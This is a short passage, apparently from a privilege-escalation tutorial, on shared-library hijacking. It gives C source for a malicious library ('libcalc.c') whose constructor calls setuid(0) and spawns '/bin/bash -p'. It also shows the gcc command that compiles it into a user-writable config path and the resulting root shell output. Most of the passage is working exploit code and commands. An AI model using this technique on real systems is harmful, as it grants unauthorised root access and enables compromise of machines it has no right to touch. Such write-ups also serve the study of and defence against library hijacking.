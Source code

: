 {% code title="libcalc.c" %}
```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
        setuid(0);
        system("/bin/bash -p");
}
```
{% endcode %}

{% code title="Compile to a shared library" %}
```shell-session
$ gcc -shared -fPIC -o /home/user/.config/libcalc.so libcalc.c
```
{% endcode %}

Then when the program loads `/home/user/.config/libcalc.so`, it will actually find our malicious library giving us a shell:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ ./vulnerable
</strong># id
uid=0(root) gid=1000(user) egid=50(staff) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
</code></pre>
